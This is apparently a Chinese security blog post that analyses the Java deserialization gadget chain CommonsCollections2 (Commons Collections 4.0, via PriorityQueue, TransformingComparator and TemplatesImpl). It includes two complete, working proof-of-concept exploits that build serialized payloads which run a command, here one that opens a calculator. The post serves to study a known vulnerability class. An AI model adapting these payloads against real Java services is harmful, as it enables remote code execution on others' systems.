# CommonsCollections2利用链分析

## 前言

`CommonsCollections2`利用链利用环境如下：

```
CommonsCollections 4.0
JDK 版本暂无限制
需要 javassist(伪条件，具体见下文)
```

可以看到，在 cc2 是针对`CommonsCollections 4.0`新版本的利用链，环境配置 Maven 依赖如下（需要 javassist 的原因在下文）：


利用链如下：
```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        ChainedTransformer.transform()
                        		ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

我们就跟着链子逐步探究一番。

## PriorityQueue

看`PriorityQueue#readObject()`方法源码


可以看到对传入的对象输入流`s`进行反序列化并传入到`queue`数组中，说明`s`是经过序列化后的数据，那么接着看`writeObject()`序列化方法


其中对`queue`数组遍历进行序列化，而`queue`是`PriorityQueue`类的一个属性，那么我们可以通过反射进行控制，所以`queue`成为可控点。


前面可以看到`readObject()`方法最后还调用了`heapify()`方法，我们接着跟`heapify()`


`headify()`方法进行循环并调用了`siftDown()`方法，其中第二个参数`queue`是可控点，继续跟进`siftDown()`源码


这里做了一个判断，如果`comparator`不为空，则进入`siftDownUsingComparator(k, x)`方法。


这里`comparator`也是`PriorityQueue`类的一个属性，因此也可以通过反射进行控制。此外，因为前面的`queue`是可控的，所以这里`siftDownUsingComparator(k, x)`的`x`也是可控的。

继续跟进`siftDownUsingComparator()`方法源码


可以看到这里调用到了`comparator.compare()`方法，而`comparator`是可控的，并且`comparator(x,c)`中的`x`也是可控的。

根据利用链可以看到`comparator`被赋值为`TransformingComparator`，接下来到了`TransformingComparator.compare()`方法。

## TransformingComparator

跟进`TransformingComparator#compare()`方法


可以看到会执行`this.transformer.transform()`方法，并且`this.transformer`在前面构造参数方法的时候进行赋值，因此也是可控点。这里可以根据前面学习的`CommonsCollections1`开始构造 POC 了。

在构造 POC 前，发现`ysoserial`中的`queue`添加了两个元素


这是为啥捏？回去重新跟一下，发现原来是要满足在`heapify()`方法的操作，如果只有一个元素则`size`为 1，最后经过无符号右移动 1 位并且减 1 ，则结果为 -1 将无法进入`siftDown()`方法


补充一下，`TransformingComparator`类只有在`CommonsCollections4.0`的时候才实现`serializable`接口，因此才可以进行序列化与反序列化。


这也是为什么`CommonsCollections2`限制了利用版本在`CommonsCollections4.0`的原因。

## 构造 POC

根据以上学习，利用链已经清晰明了，构造 POC
```java
package com.serialize;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/10/9 10:51
 */
public class CommonsCollections2 {
    public static void main(String[] args) throws Exception{
        CommonsCollections2 commonsCollections2 = new CommonsCollections2();
        commonsCollections2.serialize();
        commonsCollections2.unserialize();
    }

    public void serialize() throws Exception {
        String cmd = "open -a Calculator.app";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        Field comparator = priorityQueue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, transformingComparator);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

## ysoserial中的利用链

在`ysoserial`中的利用链则和前面我们所构造的有所不同，gadget 如下所示：

```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        InvokerTransformer.transform()
                                Method.invoke()
                                    TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

与我们前面构造的 POC 不同的是，`ysoserial`后面采用了`TemplatesImpl`类，我们跟进`TemplatesImpl#newTransformer()`方法


该方法中调用了`getTransletInstance()`，继续跟进`getTransletInstance()`源码


上面可以看到当`this._class`为`null`时就会调用`defineTransletClasses()`方法，因为`this._class`为`TemplatesImpl`类的属性，所以是可以通过反射控制的。

继续跟进`defineTransletClasses()`方法


这里通过`load.defineClass()`方法将字节码进行加载定义一个新的类，而`this._bytecodes`也是类的属性，所以也是可以通过反射进行控制字节码。此外，接下来的`superClass.getName().equals(ABSTRACT_TRANSLET)`判断新定义的类是否继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`类，只有继承才会将下标`i`赋值给`this._transletIndex`。

最后再通过`newInstance()`方法实例化新定义的类


构造 POC 为
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/10/9 10:51
 */
public class CommonsCollections2 {
    public static void main(String[] args) throws Exception{
        CommonsCollections2 commonsCollections2 = new CommonsCollections2();
        commonsCollections2.serialize();
        commonsCollections2.unserialize();
    }

    public void serialize() throws Exception {
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 构造InvokerTransformer
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer invokerTransformer = (InvokerTransformer) constructor.newInstance("newTransformer");
        TransformingComparator transformingComparator = new TransformingComparator<>(invokerTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 通过反射修改queue
        Object[] objectsArrary = new Object[]{templates,1};
        Field queue = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue.setAccessible(true);
        queue.set(priorityQueue,objectsArrary);
        // 通过反射将comparator修改为前面的链子
        Field comparator = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, transformingComparator);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```



**这里为什么需要再通过一次反射修改 queue ？** 

可以往回到`compara()`方法，因为我们这次使用的是`InvokerTransformer`，其中的`transform()`参数`obj1`需要设置为`TemplatesImpl`类，去触发`TemplatesImpl#newTransformer()`


那为什么不在第一个`priorityQueue.add(1)`时加入呢？因为在后面会有一个数组间的元素比较，而对象和数字，以及对象和对象是无法比较的。

接下来回答一下开头说的为什么`javassist`是个伪条件，跟下来其实发现`javassist`的作用就是构造一个恶意类，最后这个恶意类被转换成了字节码。而我们可以本地构造好恶意类的字节码，直接设置到`_bytecodes`，无需在目标主机上去通过`javassist`构造。
